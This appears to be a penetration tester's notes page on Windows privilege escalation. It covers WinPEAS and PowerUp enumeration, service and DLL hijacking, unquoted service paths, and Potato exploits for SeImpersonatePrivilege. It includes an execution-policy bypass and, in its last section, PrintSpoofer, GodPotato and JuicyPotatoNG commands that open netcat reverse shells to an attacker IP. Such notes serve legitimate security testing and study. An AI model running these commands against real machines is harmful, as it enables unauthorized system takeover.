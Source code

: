 # Privilege Escalation

## WinPeas

[WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

(also installable with `sudo apt install peass`, resulting in binaries found with `winpeas --help` and `linpeas --help` )


If WinPeas shows the lines:

```
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

we can install msis as authority\system.
Generate an msi reverse shell with `msfvenom`, and we own the machine.


## PowerUp

[PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

If the shell complains that scripts are turned off, do `powershell -ep bypass` to allow the script to be run.

Get it onto the target machine, do `Import-Module .\PowerUp.ps1`.
Now, we can run the functions defined in the script, such as `Get-ModifiableServiceFile` or `Get-UnquotedService`

Note that `Get-UnquotedService` will give you all the information you need, including the same results as enumerating which paths we have access to with `icacls $Path`.
It will give you the ModifiablePaths where we can dump our .exe for the service to find.


## EventViewer UAC Bypass

If PowerUp or winpeas tells you there's an escalation route through EventViewer UAC Bypass, have a look at [this](https://github.com/CsEnox/EventViewer-UACBypass).

## Windows services

### Hijacking the binary

remember you can use `Get-ModifiableServiceFile` from PowerUp.

We can query the wmi class `win32_service` in the following manner:
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Once we identify a potentially vulnerable service, we can use `Get-ACL` or `icacls` to check permissions of the services.

We are looking for services where we are:

* Able to change the executable
* Able to restart the service

If we can switch out the executable with our own (eg from [win-x64-privesc](./../../payloads-n-scripts/win-x64-privesc/createadmin.exe)), we can escalate.

If the service is set to StartMode: Auto, consider if you can restart the machine after swapping out the exe-file.

### Hijacking DLLs

If we can see that a service runs specific DLLs, we might be able to hijack such a DLL and trigger our own code.

### Service Paths

Because of the way windows looks through paths, we can inject an executable into an unquoted path.
If the executable is located in:

```
C:\Program Files\SomeService\Version A\Service.exe
```
and we have write access to eg. 
```
C:\Program Files\SomeService\
```
then we can create a `Version.exe` and place it:
```
C:\Program Files\SomeService\Version.exe
```
This of course requires us to have write-access to part of the unquoted path, and access to restart the service in one way or another.


## Scheduled Tasks


To use tasks we need to consider:
* Who executes the task?
* What triggers the task?
* What happens it triggers?

Cmdlet for querying tasks:

```
schtasks /query /fo LIST /v

```
Information to look at is TaskName, Next Run Time, Author, Task to Run and Run As User.



As the output can be quite long, consider doing something like:

```
schtasks /query /fo LIST /v > tasks.txt
```
And then transfering the list to the attack box


## Procmon

Should you identify a windows service you are interested in analyzing with Procmon,
transfer it to a Windows VM (including any .dlls in the same dir), install the service with:

```
sc.exe create ${SERVICE_NAME} binPath="${EXE_PATH}"
```

Now, transfer Procmon to the VM, start Procmon, set `Filter > Process Name > ${EXE_NAME.exe}`, add and apply.
Consider removing the registry entries event view too as they tend to clutter the overview.

Now, do `sc.exe start ${SERVICE_NAME}` and you can analyze the events.
Hopefully, a missing dll will show up for you to use.


## Misc Exploits - SeImpersonatePrivilege

When looking at privilege escalation, the privilege `SeImpersonatePrivilege` can be interesting, as it allows users to run commands as another user.
By default, this privilege is given to the accounts:

* local Administrators
* LOCAL SERVICE
* NETWORK SERVICE
* SERVICE

If we have exploited IIS, it is not uncommon to have a shell running as

* LocalService
* LocalSystem
* NetworkService
* ApplicationPoolIdentity

Which all have SeImpersonatePrivilege.


Note that with SeImpersonatePrivilege it can be good to try out multiple of the "Potato" exploits as they might not all work.

[GodPotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20) seems to generally be pretty successful with creating a reverse shell.
If not that one, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) or [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG) also seems to do the job most of the time.


### Potato command examples

```
./PrintSpoofer.exe -i -c cmd
```
or if you don't have an interactive shell:

```
./PrintSpoofer.exe -i -c "C:/Users/${user}/Desktop/nc.exe ${ATTACKER_IP} ${ATTACKER_PORT} -e cmd"
```


```
./GodPotato -cmd "C:/Users/${user}/Desktop/nc.exe ${ATTACKER_IP} ${ATTACKER_PORT} -e cmd"
```

```
./JuicyPotatoNG.exe -t * -p "./nc.exe" -a "${ATTACKER_IP} ${ATTACKER_PORT} -e cmd"
./JuicyPotatoNG.exe -t * -p "./shell.exe" 
```

If one doesn't work, try them all.
A workaround can also be to use them to create a new admin user that you can log in with.

